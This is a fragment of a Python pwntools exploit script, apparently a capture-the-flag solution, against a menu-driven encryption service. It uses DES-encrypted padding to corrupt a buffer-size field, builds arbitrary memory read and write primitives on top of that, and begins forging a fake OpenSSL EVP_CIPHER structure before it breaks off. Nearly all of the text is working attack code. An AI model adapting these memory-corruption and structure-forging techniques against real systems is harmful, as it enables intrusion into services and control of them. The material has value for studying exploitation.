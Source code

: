 ```python
    make_choice(0)
    p.sendline('{}\n{}\n{}'.format(len(data), buf, data.encode('hex')))
    p.recvuntil('hex-encoded bytes\n')

def read_data(buf):
    make_choice(5)
    p.sendline('{}'.format(buf))
    p.recvuntil(') = ')
    return p.recvline().strip().decode('hex')

CRYPTO_OP_ENCRYPT = 3
CRYPTO_OP_DECRYPT = 4
def crypto_op(op, dst_buf, src_buf, key=CORRUPT_KEY):
    KEY_BUF = 12
    load_data(KEY_BUF, key)
    make_choice(op)
    p.sendline('{}\n{}\n{}\n{}\n{}'.format(CIPHER, src_buf, dst_buf, KEY_BUF, KEY_BUF))
    p.recvuntil('For an IV (use any buffer if not needed) Which buffer (0-31) would you like to use?\n')

def load_data_contig(buf, data):
    chunks = [data[i:i+BUF_SIZE] for i in range(0, len(data), BUF_SIZE)]
    for i in range(len(chunks)):
        load_data(buf + i, chunks[i])

# If len(key) > 8, uses key[:8] for payload encryption
# but still loads the full key into the key buffer
def primitive_control_buf0(size, data='', key=CORRUPT_KEY):
    CORRUPT_SIZE = 20488
    # Load payload
    data += 'A'*(CORRUPT_SIZE - 8 - len(data)) + p32(size) + 'A'*4
    des = DES.new(key[:8], DES.MODE_ECB)
    load_data_contig(0, des.encrypt(data))
    # Corrupt buffer_size[0] = 20488
    crypto_op(CRYPTO_OP_ENCRYPT, NUM_BUFS - 1, 0)
    # Control size
    crypto_op(CRYPTO_OP_DECRYPT, NUM_BUFS - CORRUPT_SIZE / BUF_SIZE, 0, key)

# addr must be >= BUFFER_ADDR
def primitive_read(addr, n):
    off = addr - BUFFER_ADDR
    primitive_control_buf0(off + n)
    return read_data(0)[off:]

# addr must be >= BUFFER_ADDR + (NUM_BUFS-1)*BUF_SIZE
def primitive_write(addr, data, key=CORRUPT_KEY):
    off = addr - BUFFER_ADDR - (NUM_BUFS-1)*BUF_SIZE
    payload  = 'A'*off + data
    payload += 'A'*(8 - len(payload) % 8) if len(payload) % 8 != 0 else ''
    primitive_control_buf0(len(payload), payload, key)
    crypto_op(CRYPTO_OP_DECRYPT, NUM_BUFS - 1, 0, key)

def build_fake_evp_cipher(cleanup):
    # EVP_CIPHER.nid = 0x1d
    evp_cipher  = p32(0x1d)
    # EVP_CIPHER.block_size = 8
    evp_cipher += p32(8)
    # EVP_CIPHER.key_len = 8
    evp_cipher += p32(8)
    # EVP_CIPHER.iv_len = 0
    evp_cipher += p32(0)
    # EVP_CIPHER.flags = 0x201
    evp_cipher += p32(0x201)
```